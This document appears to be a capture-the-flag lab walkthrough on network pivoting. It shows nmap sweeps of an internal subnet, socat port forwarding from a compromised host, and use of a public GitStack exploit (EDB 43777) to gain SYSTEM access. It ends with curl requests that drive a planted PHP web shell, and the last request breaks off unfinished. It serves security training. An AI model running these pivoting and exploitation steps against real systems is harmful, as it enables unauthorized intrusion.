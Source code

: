 
# Enumeration
download binary nmap to the compromised server and start scaning the network
```bash
nmap -sn 10.200.72.1-255 -oN scan-devme # -sn: only check open host in the network
# Nmap scan report for ip-10-200-72-100.eu-west-1.compute.internal (10.200.72.100)
# Nmap scan report for ip-10-200-72-150.eu-west-1.compute.internal (10.200.72.150),
# some port are out of scope of this challenge so we don't need to mind about it
```
Found 2 hosts in the network, let's scan the port(below 1500)
```bash
nmap -p-1500 -v -T4 10.200.72.100
# all ports filtered
nmap -p-1500 -v -T4 10.200.72.150
# PORT     STATE SERVICE
# 80/tcp   open  http
# 3389/tcp open  ms-wbt-server
# 5357/tcp open  wsdapi
# 5985/tcp open  wsman
```
ok, let's access port 80 on host 10.20.72.150. Because we cannot directly access it so we have to create a port forwarding from compromised server and forward it to this host when we access from our machine.
```bash
# we using socat this time
./socat-devme tcp-l:20000 tcp:10.200.72.150:80 &
# access from our browser
http://10.200.72.200:20000
```
As a word of advice: sshuttle is highly recommended for creating an initial access point into the rest of the network. This is because the firewall on the CentOS target will prove problematic with some of the techniques shown here. 
DAMN IT!

access the websever -> gitstack
```bash
searchsploit gitstack
searchsploit -m 43777 # EDBID
```
Before we can use the exploit, we must convert these into Linux line endings using the dos2unix tool:
```bash
dos2unix ./43777.py
```
This  can also be done manually with sed if dos2unix is unavailable:
```bash
sed -i 's/\r//' ./EDBID.py
```
scripts - add shebang header, edit ip address
```bash
#!/usr/bin/python2
#!/usr/bin/python3
#/bin/sh
```
This means that if we execute the script using ./exploit.py, it will be executed by the correct interpreter.
```bash
./43777.py
# authority system -> already admin

#webshell rce
curl -X POST http://10.200.72.150:20000/web/exploit-USERNAME.php -d "a=COMMAND"
curl 

```
